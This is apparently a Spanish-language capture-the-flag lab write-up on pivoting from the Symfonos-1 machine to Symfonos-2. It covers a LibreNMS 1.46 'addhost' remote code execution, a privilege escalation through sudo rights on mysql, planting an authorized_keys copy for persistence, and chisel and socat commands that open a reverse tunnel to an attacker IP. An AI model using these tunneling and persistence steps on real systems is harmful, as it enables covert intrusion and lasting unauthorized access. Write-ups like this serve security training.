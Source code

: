 ### Pivoting And Tunneling
ahora en nuestra pantalla de `Pivoting And Tunneling` vamos crear el túnel por donde vamos a recibir la información para luego redireccionarlo 
![[Pasted image 20240619162613.png]]

### Ejecución de LibreNMS 1.46 - 'addhost' Remote Code Execution'
ahora buscamos el dispositivo que hemos agregado y vamos a ejecutarlo. revisando el `exploit` vemos que hacen un llamado del dispositivo bajo la variable `capture` la cual vemos si vamos al meno engranaje `> capture > SNMP > Run` 
![[Pasted image 20240619162907.png]]

### conexión Symfonos-2 > Symfonos-1 > Maquina atacante (Attack)
logramos obtener conexión a la maquina `symfonos-2 pero como el usuario cronus`
![[Pasted image 20240619163334.png]]

### Escalada de privilegios Symfonos-2
en este caso tenemos permisos root para ejecutar el binario `/usr/bin/mysql/` vamos aprovechar esto para escalar privilegios
![[Pasted image 20240619164428.png]]

### GTFObins
debemos ejecutar esta instrucción para lograr obtener unas bash con privilegios
![[Pasted image 20240619174020.png]]

### Root
explotando este binario logramos conseguir una bash con privilegios elevados
#Nota: hacemos una copia de nuestra `authorized_keys` en la maquina `symfonos-2` para de esta manera asegurar la persistencia y así poder salir y entrar cuando queramos
![[Pasted image 20240619174131.png]]

# CONEXIÓN

```python
*Maquina Atacante*
> ./chisel server --reverse -p 8000

*Maquina Symfonos1*
> ./chisel client 10.0.2.4:8000 R:socks

*Tunneling*
> ./socat TCP-LISTEN:1221,fork TCP:10.0.2.4:9001

#Nota: para hacerlo de manera inversa, es decir. hacer una peticion a la symfonos-2 pasando por la maquina symfonos 1 debemos configurar otro tunel de socat de la siguiente manera:

*Maquina Symfonos 1*
./socat TCP-LISTEN:1331,fork TCP:10.2.2.7:9876 (Ip Symfonos-2)

*socat abre un puerto TCP en este caso le indicamos el 1331 y le decimos que toda la informacion que llegue a ese puerto sea redireccionada a la ip 10.2.2.7 en el puerto 9876* 
```

